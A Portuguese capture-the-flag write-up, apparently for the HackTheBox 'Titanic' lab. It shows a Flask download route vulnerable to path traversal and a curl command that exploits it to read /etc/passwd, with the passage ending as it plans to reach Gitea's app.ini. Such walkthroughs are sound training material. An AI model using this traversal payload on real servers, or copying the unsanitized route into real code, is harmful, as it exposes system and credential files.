 Após descobrir o subdomínio `dev.titanic.htb`, adicionamos ao arquivo `/etc/hosts` e acessamos via navegador.

## Acesso Inicial

Na instância Gitea, encontramos dois repositórios importantes:

- `docker-config`: Contém configurações Docker do Gitea e MySQL
- `flask-app`: Contém a aplicação web vulnerável

No repositório `flask-app`, identificamos uma vulnerabilidade de Path Traversal na função `download_ticket()` na rota `/download`.

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

O repositório `docker-config` revelou o path `/home/developer/gitea/data:/data` usado nas configurações do Gitea.

```yaml
services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"
    volumes:
      - /home/developer/gitea/data:/data
```

Utilizando a vulnerabilidade de Path Traversal, conseguimos extrair o passwd do sistema:

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../etc/passwd'
```

```text
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

Lendo a [documentação do Gitea](https://docs.gitea.com/administration/config-cheat-sheet), podemos identificar a localização padrão dos arquivos de configuração. O arquivo de configuração é salvo em `etc/gitea/conf/app.ini`; após a instalação, podemos utilizar o caminho `/home/developer/gitea/data:/data` (recuperado anteriormente) para localizar o arquivo `app.ini`.

